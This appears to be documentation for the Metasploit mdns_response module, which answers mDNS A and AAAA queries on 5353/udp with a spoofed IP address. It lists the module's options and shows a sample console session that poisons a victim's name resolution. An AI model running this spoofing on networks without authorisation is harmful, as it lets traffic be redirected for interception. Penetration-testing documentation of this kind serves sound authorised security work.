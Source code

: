 This module will listen for mDNS multicast requests on 5353/udp for A and AAAA record queries, and respond with a spoofed IP address (assuming the request matches our regex).

## Vulnerable Application

To use mdns_response, be on a network with devices/applications that can make mDNS multicast requests on 5353/udp for A and AAAA record queries.

## Verification Steps

  1. `use auxiliary/spoof/mdns/mdns_response`
  2. `set INTERFACE network_iface`
  3. `set SPOOFIP4 10.x.x.x`
  4. `run`

## Options
  
**The SPOOFIP4 option**

IPv4 address with which to spoof A-record queries
	
```
set SPOOFIP4 [IPv4 address]
```

**The SPOOFIP6 option**

IPv6 address with which to spoof AAAA-record queries
	
```
set SPOOFIP6 [IPv6 address]
```

**The REGEX option**

Regex applied to the mDNS to determine if spoofed reply is sent
	
```
set REGEX [regex]
```

**The TTL option**

Time To Live for the spoofed response (in seconds)
	
```
set TTL [number of seconds]
```

## Scenarios

```
msf > use auxiliary/spoof/mdns/mdns_response
msf auxiliary(mdns_response) > set SPOOFIP4 10.x.x.y
SPOOFIP4 => 10.x.x.y
msf auxiliary(mdns_response) > set INTERFACE en3
INTERFACE => en3
msf auxiliary(mdns_response) > run
[*] Auxiliary module execution completed
msf auxiliary(mdns_response) >
[*] mDNS spoofer started. Listening for mDNS requests with REGEX "(?-mix:.*)" ...
```

On Victim Machine
```
ping something.local
```
(IP address should resolve to spoofed address)


```
[+] 10.x.x.z        mDNS - something.local. matches regex, responding with 10.x.x.y
```
